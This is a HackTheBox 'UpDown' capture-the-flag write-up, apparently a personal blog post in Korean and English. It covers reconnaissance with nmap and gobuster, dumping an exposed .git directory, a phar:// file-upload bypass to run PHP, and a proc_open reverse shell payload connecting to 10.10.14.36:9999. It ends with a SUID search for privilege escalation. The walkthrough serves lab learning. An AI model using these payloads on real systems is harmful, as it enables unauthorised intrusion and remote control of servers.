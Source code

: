 ```yaml
---
layout: post
title: HackTheBox UpDown
subtitle: UpDown WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-17-UpDown/1a290611f444e0d251233ed971a4f9f7_MD5.jpeg)
## Target - 10.129.227.227
### Nmap
```bash
nmap -sC -sV -Pn -p- 10.129.227.227 -o UpDown_AllPort
```

### WEB
```bash
# 호스트 등록
echo "10.129.227.227 siteisup.htb" | sudo tee -a /etc/hosts

# 디렉토리 탐색
gobuster dir -u siteisup.htb -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://siteisup.htb/dev -w /usr/share/wordlists/dirb/common.txt

# 서브도메인 탐색
gobuster vhost -u http://siteisup.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain

# 서브도메인 호스트 등록
echo "10.129.227.227 dev.siteisup.htb" | sudo tee -a /etc/hosts

# git dump
git-dumper http://siteisup.htb/dev/.git dev

# config 보기
cat .htaccess
```

![](/assets/images/posts/2025-03-17-UpDown/284ba3fd6ad877528a4f3670a2f6ce5b_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/3dad85a3644415a5b33e41cbffc9aec7_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/a41302bb81f42bed44f2386fe38e06c2_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/caba1c0c482717b28220a2be17b2c742_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/fb818fef54497e9853afd3ea110a3218_MD5.jpeg)![](/assets/images/posts/2025-03-17-UpDown/3081fbcce96767472ac559c5c7d2bcd1_MD5.jpeg)

### phar:// Exploit
```bash
# 파일 필터링 로직 및 upload 경로 확인
cat checker.php

echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt

http://dev.siteisup.htb/?page=phar://uploads/a4cb7397e7c127125e4af8261d1c8fef/info.txt/info
```
![](/assets/images/posts/2025-03-17-UpDown/bf7036a51a5414ccfef2e795f8a45153_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/4fcc8fc91aad8d6b18d28968e621f56c_MD5.jpeg)
### dfunc-bypasser.py
```bash
# vi dfunc-bypasser.py 수정
phpinfo = requests.get(url, headers={"Special-dev":"only4dev"}).text

# 실행
python dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/11d0d701df649f7c93b673db37e5c66b/info.txt/info
```
![](/assets/images/posts/2025-03-17-UpDown/a031fa0acd34384e5287aa7bf3cf36fd_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/7e35d58b12f926a49afde5d26ee81e62_MD5.jpeg)
### proc_open Exploit
```php
# poc.php
<?php 
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin 
1 => array('pipe', 'w'), // stdout 
2 => array('pipe', 'a') // stderr 
); 
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/9999 0>&1'"; 
$process = proc_open($cmd, $descriptorspec, $pipes, null, null); 
?>
```

```bash
zip poc.zip poc.php
mv poc.zip poc.txt

http://dev.siteisup.htb/?page=phar://uploads/3a6182d84b5c185244868a879af73f68/poc.txt/poc
```


### Privilege Escalator
```bash
find / -user developer -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```